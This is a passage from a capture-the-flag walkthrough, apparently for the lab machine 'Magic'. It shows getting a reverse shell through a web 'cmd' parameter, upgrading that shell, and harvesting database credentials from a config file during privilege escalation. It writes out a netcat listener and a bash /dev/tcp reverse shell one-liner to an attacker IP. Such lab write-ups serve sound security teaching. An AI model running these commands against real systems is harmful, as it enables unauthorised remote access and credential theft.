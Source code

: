 We have code execution! Now, let’s get a reverse shell. First, set up a listener on the attack machine.

```text
nc -nlvp 443
```

Then run the request again and send it to _Repeater._ Next, visit [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and add the bash reverse shell in the ‘_cmd_’ parameter.

```text
bash -c 'bash -i >& /dev/tcp/10.10.14.171/443 0>&1'
```

Make sure to URL encode it before you send the request \(Ctrl + U\).

![Image for post](../images/max/659/1*NPkw2rnthUK6a2_-MY1NJw.png)

We get a shell! Let’s upgrade it to a better shell.

```text
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “_fg_” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```text
export TERM=xterm
```

Unfortunately, we’re running as the web daemon user _www-data_ and we don’t have privileges to view the _user.txt_ flag. Therefore, we need to escalate our privileges.

### Privilege Escalation <a id="a004"></a>

Going through the web app files, we find database credentials in the _db.php5_ file.

```text
www-data@ubuntu:/var/www/Magic$ cat db.php5
...
private static $dbName = 'Magic' ;
private static $dbHost = 'localhost' ;
private static $dbUsername = 'theseus';
private static $dbUserPassword = 'iamkingtheseus';
...
```
